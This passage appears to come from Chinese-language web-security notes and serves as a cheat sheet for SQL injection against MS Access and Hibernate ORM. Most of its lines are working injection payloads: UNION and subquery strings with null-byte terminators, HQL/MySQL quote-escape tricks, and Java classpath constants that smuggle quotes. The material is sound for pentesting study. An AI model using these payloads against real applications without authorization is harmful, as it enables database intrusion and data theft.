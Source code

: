 ## MS Access

- 沒有註解
    - 某些情況可以用 `%00`, `%16` 來達到類似效果
- 沒有 Stacked Queries
- 沒有 Limit
    - 可以用 `TOP`, `LAST` 取代
    - `'UNION SELECT TOP 5 xxx FROM yyy%00`
- 沒有 Sleep, Benchmark, ...
- 支援 Subquery
    - `'AND (SELECT TOP 1 'xxx' FROM table)%00`
- 在 subquery 或 Union select 時，需要指定 `FROM` 
- String Concatenation
    - `&` (`%26`)
    - `+` (`%2B`)
    - `'UNION SELECT 'aa' %2b 'bb' FROM table%00`
- Ascii Function
    - `ASC()`
    - `'UNION SELECT ASC('A') FROM table%00`
- Substring Function
    - `Mid()`
    - `Mid('admin',1,1)`
- IF THEN
    - `IFF(condition, true, false)`
    - `'UNION SELECT IFF(1=1, 'a', 'b') FROM table%00`
- Ref
    - https://book.hacktricks.xyz/pentesting-web/sql-injection/ms-access-sql-injection

## ORM injection


- Hibernate
    - 不支援 UNION 語法
    - 單引號跳脫法
        - MySQL 中，單引號用 `\'` 跳脫
        - HQL 中，用兩個單引號 `''` 跳脫
        - `'abc\''or 1=(SELECT 1)--'`
            - 在 HQL 是一個字串
            - 在 MySQL 是字串+額外 SQL 語句
    - Magic Function 法
        - PostgreSQL 中內建 `query_to_xml('Arbitary SQL')`
        - Oracle 中有 `dbms_xmlgen.getxml('SQL')`
    - Java Constants
        - 可以從 classpath 中去找 constant 來用
        - 例如 `ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR` 在 MySQL 層就會被解成單引號 (在 HQL 層則不是)
        - Example: DEVCORE Wargame 2024 - Spring
            - `/a'*length('a')*org.apache.logging.log4j.util.Chars.QUOTE and '-- '='a`
                - HQL: 等同 `/a'*length('a')*org.apache.logging.log4j.util.Chars.QUOTE and '[shit]'='a`
                - MySQL: 等同 `/a'*length('a')*'[shit]'-- [shit]`
        - 常見 Constants:
            - `org.apache.batik.util.XMLConstants.XML_CHAR_APOS`
            - `com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE`
            - `jodd.util.StringPool.SINGLE_QUOTE`
            - `ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR`
            - `cz.vutbr.web.csskit.OutputUtil.STRING_OPENING`
            - `com.sun.java.help.impl.DocPConst.QUOTE`
            - `org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE`
            - `org.apache.logging.log4j.util.Chars.QUOTE`
    - Reference
        - https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications
        - https://www.slideshare.net/slideshow/new-methods-for-exploiting-orm-injections-in-java-applications/62514298

